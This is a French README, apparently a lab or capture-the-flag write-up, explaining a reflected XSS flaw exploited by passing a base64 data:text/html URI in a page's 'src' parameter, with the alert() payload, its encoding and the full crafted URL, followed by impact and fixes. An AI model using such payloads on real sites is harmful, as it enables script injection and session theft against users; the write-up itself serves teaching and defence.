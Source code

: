 # README : Exploit d'Injection Script XSS via URL

## Description

Cette brèche met en évidence une vulnérabilité de Cross-Site Scripting (XSS) dans une application web. Elle permet à un attaquant potentiel d'exécuter du code JavaScript malveillant en injectant des scripts dans l'URL.

## Fonctionnement

- Cliquez sur l'image de la NSA pour atteindre : `http://X.X.X.X/?page=media&src=nsa`
- Creez un script en base64 : `https://www.base64encode.org/fr/`

```html
<script>
  alert("XSS" + new Date().getTime());
</script>
== PHNjcmlwdD5hbGVydCgiWFNTIiArIG5ldyBEYXRlKCkuZ2V0VGltZSgpKTs8L3NjcmlwdD4=
```

- Remplacez le contenu après `src=` par le script XSS en base64, en ajoutant les URI adaptées :
  `src=data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyArIG5ldyBEYXRlKCkuZ2V0VGltZSgpKTs8L3NjcmlwdD4=`

**Type de donnees URI (Uniform Resource Identifier) :** `data:text/html;base64,`  
Type URI, pour ajouter des donnees dans le code HTML.  
**data** = schema qui indique que les **données sont incluses** dans l’URI  
**text/html** = **type MIME** qui indique que c’est du HTML  
**base64** = encode en base64, format classique pour encode des donnees binaires en text ASCII

- Accédez à l'URL :  
   `http://X.X.X.X/?page=media&src=data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyArIG5ldyBEYXRlKCkuZ2V0VGltZSgpKTs8L3NjcmlwdD4=`

## Impact

Cette vulnérabilité peut permettre à un attaquant de :

- Exécuter du code JavaScript dans le navigateur de l'utilisateur
- Potentiellement voler les informations de session utilisateur
- Afficher du contenu malveillant aux utilisateurs légitimes

## Recommandations

Pour corriger cette vulnérabilité :

- Valider et sécuriser toutes les entrées utilisateur côté serveur avant de les utiliser dans l'URL.
- Utiliser une validation robuste pour empêcher l'injection de script HTML ou JavaScript.
- Implémenter une protection anti-XSS pour éviter l'exécution de code malveillant dans le navigateur.
- Utiliser le schéma correct pour les données dans l'URL (`data:`) et valider son contenu.
